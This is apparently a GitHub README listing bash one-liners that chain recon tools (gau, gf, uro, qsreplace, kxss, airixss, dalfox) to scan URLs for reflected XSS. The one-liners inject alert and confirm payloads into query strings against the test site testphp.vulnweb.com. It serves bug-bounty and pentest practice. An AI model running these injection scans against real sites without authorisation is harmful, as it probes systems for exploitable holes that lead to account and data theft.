 # One-liner-XSS-Scanner-
This is a collection of commands that's help you to find XSS via automation.

*Via Bash Script*
> Tools:
> [Kxss](https://github.com/Emoe/kxss) : To find reflected values.
> [uro](https://github.com/s0md3v/uro): Declutters url lists for crawling.
> [gf](https://github.com/tomnomnom/gf): A wrapper around grep, to help you grep for things.
> [qsreplace](https://github.com/tomnomnom/qsreplace): To replace all query string values with a user-supplied value.
> [Freq](https://github.com/takshal/freq): To find alert values.
> [airixss](https://github.com/ferreiraklet/airixss): To find XSS during recon.
> [dalfox](https://github.com/hahwul/dalfox) : It’s a powerfull XSS scanner.

*First Case*

```
echo http://testphp.vulnweb.com | gau | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
```

![1_HTuqyTBftAdkwqfRL3jQ_w](https://github.com/0xElkot/One-liner-XSS-Scanner-/assets/58730198/b7975f46-d5ce-4adb-9f35-87d6b7af9294)


```
cat param.txt | kxss | awk '{print $9}'| dalfox pipe
```

![1_FO3algvVNFOrDIYh7wKbVQ](https://github.com/0xElkot/One-liner-XSS-Scanner-/assets/58730198/fbf15891-47df-43fe-a47a-aefc64c6493b)


```
cat param.txt | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
echo http://testphp.vulnweb.com | gau | gf xss | uro  |qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
```

![1__JCZZJX2T1XiHxH0FZPTWw](https://github.com/0xElkot/One-liner-XSS-Scanner-/assets/58730198/cfb1baa0-f59c-4447-9753-093fd6b62c77)

*You can Read the full methodology here at [Medium](https://0xelkot.medium.com/advanced-xss-discovery-streamlining-your-attack-strategy-with-cutting-edge-automation-tools-88cfd0f68c8e)*
